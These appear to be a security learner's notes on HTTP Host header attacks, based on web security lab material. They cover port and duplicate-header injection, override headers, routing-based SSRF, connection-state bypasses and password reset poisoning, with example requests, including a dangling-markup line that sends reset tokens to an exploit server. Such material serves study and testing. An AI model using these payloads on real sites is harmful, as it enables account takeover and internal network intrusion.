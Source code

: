 # HTTP Host header attacks
In short, you need to identify whether you are able to modify the Host header and still reach the target application with your request. If so, you can use this header to probe the application and observe what effect this has on the response.  
Some parsing algorithms will omit the port from the Host header, meaning that only the domain name is validated. If you are also able to supply a non-numeric port, you can leave the domain name untouched to ensure that you reach the target application, while potentially injecting a payload via the port.  

```
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```
Other sites will try to apply matching logic to allow for arbitrary subdomains. In this case, you may be able to bypass the validation entirely by registering an arbitrary domain name that ends with the same sequence of characters as a whitelisted one:  
```
GET /example HTTP/1.1
Host: notvulnerable-website.com
```
Alternatively, you could take advantage of a less-secure subdomain that you have already compromised: 
```
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```
## Inject duplicate Host headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```
Let's say the front-end gives precedence to the first instance of the header, but the back-end prefers the final instance. Given this scenario, you could use the first header to ensure that your request is routed to the intended target and use the second header to pass your payload into the server-side code.  
## Add line wrapping
You can also uncover quirky behavior by indenting HTTP headers with a space character. Some servers will interpret the indented header as a wrapped line and, therefore, treat it as part of the preceding header's value. Other servers will ignore the indented header altogether. 
```
GET /example HTTP/1.1
    Host: bad-stuff-here
Host: vulnerable-website.com
```
The website may block requests with multiple Host headers, but you may be able to bypass this validation by indenting one of them like this. If the front-end ignores the indented header, the request will be processed as an ordinary request for vulnerable-website.com  
Now let's say the back-end ignores the leading space and gives precedence to the first header in the case of duplicates. This discrepancy might allow you to pass arbitrary values via the "wrapped" Host header.  
## Inject host override headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here
```
Other overriding headers:
* X-Host
* X-Forwarded-Server
* X-HTTP-Host-Override
* Forwarded
We can use `Param Miner` extension from Burp to guess headers  
## Web cache poisoning via the Host header
If Host header is reflected somehow in response and site uses web cache, we can use it to exploit web-cache poisoning attack  
For example we can add second Host header to change js file source  
## Exploiting classic server-side vulnerabilities
For example, you should try the usual SQL injection probing techniques via the Host header. If the value of the header is passed into a SQL statement, this could be exploitable.  
Also some websites could use Host header to analyze privilege level. For example, we can access admin panel via changing `Host` value to localhost  
## Routing-based SSRF
Host header could be a potential vector for attack on load balancers, which receive traffic from public net and have access to internal network  
If we are able to manipulate host header, next step is to identify internal network or hostnames, If we aren't able to detect any, we can simply bruteforce default networks such as `192.168.0.0/16`  
We can test Host vulnerability by replacing Host value with Burp collaborator server and detect 200 response and coolaborator servver name in response.  
When scanning internal network with Burp Intruder, uncheck `Update Host header to match target`  
Another way to bypass Host restrictions is to use absolute url in GET request and use arbitrary Host header:
```
GET https://0ac900040418a9eb816f840c00fd0053.web-security-academy.net/ HTTP/2
Host: zdgrjgxy8z4v9ccpq8i5fcm9i0orcm0b.oastify.com
```

## Connection state attacks
For performance reasons, many websites reuse connections for multiple request/response cycles with the same client. Poorly implemented HTTP servers sometimes work on the dangerous assumption that certain properties, such as the Host header, are identical for all HTTP/1.1 requests sent over the same connection. This may be true of requests sent by a browser, but isn't necessarily the case for a sequence of requests sent from Burp Repeater.  
For example, you may occasionally encounter servers that only perform thorough validation on the first request they receive over a new connection  
In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection.  
Fo this purpose we can add two requests in group. First request will have normal Host header and `Connection` header set to keep-alive, while second request must have Host header with value of internal IP and `Connection` set top close. Next we sen group sequentially in single connection.  

## SSRF via a malformed request line
Custom proxies sometimes fail to validate the request line properly, which can allow you to supply unusual, malformed input with unfortunate results.  
For example, a reverse proxy might take the path from the request line, prefix it with http://backend-server, and route the request to that upstream URL. This works fine if the path starts with a / character, but what if starts with an @ character instead? 
The resulting upstream URL will be http://backend-server@private-intranet/example, which most HTTP libraries interpret as a request to access private-intranet with the username backend-server.  

## Password reset poisoning
1. The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control
2. The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server
3. If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server
4. The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter.  

Even if you can't control the password reset link, you can sometimes use the Host header to inject HTML into sensitive emails. Note that email clients typically don't execute JavaScript, but other HTML injection techniques like dangling markup attacks may still apply.  
We can add something like this to change host reflection in reset password mail:
```
Host: normal-host:'<a href="//exploit-0a6300c0039c728fc01880350103009d.exploit-server.net/?
```
